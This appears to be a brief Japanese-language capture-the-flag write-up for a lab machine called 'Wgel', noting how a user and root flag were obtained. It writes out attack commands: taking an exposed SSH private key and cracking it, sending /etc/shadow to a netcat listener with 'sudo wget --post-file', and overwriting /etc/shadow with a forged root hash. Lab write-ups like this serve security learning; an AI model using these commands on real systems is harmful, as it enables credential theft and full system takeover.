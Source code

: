 ```yaml
---
title: "Wgel"
date: 2024-03-16T11:43:01+09:00
draft: false
---
```


### user.txt

- unapp というアプリが使われている searchsploit は特になし
- /sitemap/.ssh
  - .ssh から id_rsa を持ってくる
  - ```ssh2john id_rsa > hash.txt```
  - ユーザ名はソースコードで jessie
- ```ssh -i id_rsa jessie@10.10.217.228```

### root.txt

- wget が sudo で使えるらしいが GTFObin ではうまくいかない
- wget privilege escalation でググる
  - ローカルで ```nc -lvnp 4444```
  - ターゲットで ```sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> 4444```
  - /etc/shadow が見えるのでコピーする
  - ローカルで ./shadow.txt とかで保存
  - ローカルで新しいハッシュを作る
    - ```openssl passwd -6 -salt 'salt' 'password’```
    - これを shadow.txt に追記
    - ```root:$6$salt$IxDD...DCy.g.:18195:0:99999:7:::```
    - これを転送
  - ```sudo /usr/bin/wget http://<local-ip>:8000/shadow.txt -O /etc/shadow```
